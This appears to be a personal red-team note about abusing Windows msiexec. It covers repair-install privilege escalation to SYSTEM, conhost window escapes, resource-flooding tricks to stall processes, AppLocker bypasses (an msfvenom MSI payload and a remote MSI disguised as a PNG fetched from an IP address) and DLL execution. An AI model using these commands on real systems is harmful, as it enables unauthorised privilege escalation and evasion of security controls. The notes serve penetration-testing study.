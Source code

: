 # msiexec
20240402
!! need to process this link still : https://badoption.eu/blog/2023/10/03/MSIFortune.html
[[applocker]]
[[privilege_escalation]]

## About

MsiExec.exe is the executable program of the Windows Installer used to interpret installation packages and install products on target systems. After you build your release, you can install your Windows Installer package (.msi) from the command line. Currently, there is no support for passing Windows Installer parameters other than at the Setup.exe command line. To ensure that Windows Installer is installed on a target system, InstallShield creates a Setup.exe for your application by default. Setup.exe installs Windows Installer if it is not present on the target system or upgrades Windows Installer if an older version is present.

After building a release of your product, you can install it from the command line.

https://docs.revenera.com/isxhelp23/helplibrary/IHelpCmdLineMSI.htm

It's a less known feature but a user with low priveleges can start the repair function of an install, and that will run with system privileges. 

There is a post from Mandiant (https://www.mandiant.com/resources/blog/privileges-third-party-windows-installers) that should be referred to, which dives into the repairs function of MSI installers. [[privilege_escalation]]

https://badoption.eu/blog/2023/10/03/MSIFortune.html

## Repair Install 
### What is it? 
MSI installers will be cached to a `C:\Windows\installer` path, however they are done so under a random name. This means that we cannot at this point easily identify which installer is for which software package. 

https://badoption.eu/blog/2023/10/03/MSIFortune.html
### tool
THere is s tool from Mandiant, that can assist red teams in identifying which random cache corresponds to which package. With this tool they can also download the relevant file allowing them to investigate potential [[privilege_escalation]] opportunities with the repair install. 

https://github.com/mandiant/msi-search
Once downloaded the adversary could potentially identify some credentials packed into the installer or a PS1 file. 

https://badoption.eu/blog/2023/10/03/MSIFortune.html


### process and  Commands 
Repairing an install can be done with the `/fa` and the randomised MSI file. So the command will look like this: 

```
msiexec /fa C:\Windows\installer\MSIfile.msi
```
The `MSIfile.msi` will appear like a random number `1314616.msi` but we can use `identifyingNumber` with `WMI`
```
PS C:\> wmic product get identifyingnumber,name,vendor,version
```
This will return the corresponding packages and their corresponding `identifyingNumber`. 

Using [[powershell]] we can run the repair install with the following: 
```
$installed = Get-WmiObject Win32_Product
$string= $installed | select-string -pattern "PRODUCTNAME"
$string[0] -match '{\w{8}-\w{4}-\w{4}-\w{4}-\w{12}}'
Start-Process -FilePath "msiexec.exe" -ArgumentList "/fa $($matches[0])"
```
This repair will then run with a `NT SYSTEM` account. 

If there is [[sccm]] in place, and aversary can enumerate the [[sccm]]. If a single [[sccm]] is found to be vulnerable to a [[privilege_escalation]] attack, then all machines in the environment are potentially vulnerable thanks to [[sccm]] 
### Visible Conhost and cmd windows 
A big mistake is to add a custom action, but not quieten the [[cmd]] or [[conhost]] window. This terminal window that pops up. By clicking them property menu a shell with `NT SYSTEM` privs can be spawned via a browser. 


This link here https://badoption.eu/blog/2023/10/03/MSIFortune.html has a GIF where we can see the [[poc]]. 

IT's possible to pause the process by CTRL A in the conhost window. By doing so, we're selecting all the text, potentially allowing us to pause the window from closing. 

If the [[conhost]] runtime is too short, there are possibilities to extend its runtime. If the underlying process is deleting files in a folder and we can write to it, add in a few thousand files there for it to delete and we can then have a chance to react. 

```
1..50000 | foreach { new-item -path "$($env:Appdata)\ProductX\$_.txt"}
```
If it is doing a taskkill, see if we can restart the binary mulitple of times 

Failing that, we can also slow down the system by spawning a lot of cmd processes with some output: 
```
1..500 | foreach { Start-Process -FilePath cmd.exe -ArgumentList '/c dir ' -WindowStyle Minimized}
```
This will overload the resources giveing us time to react. 

### Visisble Powershell 

Similar to the above, we can right click the [[powershell]] header to get to properties where we can click the link (like what was seen above in the GIF.), however we cannot select all the text to pause the process. We need to slow the processes down a bit. 

### Vulnerable installers
If we see the following:
`msiexec.exe`
`|- cmd.exe`
` |- conhost.exe`

Then we have a good chance of having identified a vulnerable installer. (Note does not neccesarily `cmd.exe` but can be any other binary). 

## AppLocaker bypass
### metasploit
[[poc]]
We can use [[metasploit]] in conjunction with msiexec. Where msfvenom can be used to generate MSI files that execute a command or payload. 

```
msfvenom -f msi -p windows/exec CMD=powershell.exe > powershell.msi
```
When the above is exucted the powershell.msi will spawn [[powershell]] bypassing [[applocker]]. 

https://docs.revenera.com/isxhelp23/helplibrary/IHelpCmdLineMSI.htm
### cmd 
If [[cmd]] is blocked, then we can run the following in a run window to bypass the [[applocker]] on [[cmd]]
```
msiexec /quiet /i cmd.msi
```
The cmd prompt will then open. 

https://docs.revenera.com/isxhelp23/helplibrary/IHelpCmdLineMSI.htm

### png files 

Alternatively msiexec utility has the ability to run MSI files that have been renamed to PNG. These files can be executed either locally or remotely from a command prompt or from Windows Run bypassing AppLocker rules. [[png_files]]
```
msiexec /q /i http://192.168.100.3/tmp/cmd.png
```
https://docs.revenera.com/isxhelp23/helplibrary/IHelpCmdLineMSI.htm

## DLL Execution
[[poc]]
Using the following command we can execute a dll file. See below: 

![[images_msiexec_1.png]]
```
msiexec /y C:\path\to\sussy.dll
```
https://twitter.com/PhilipTsukerman/status/992021361106268161



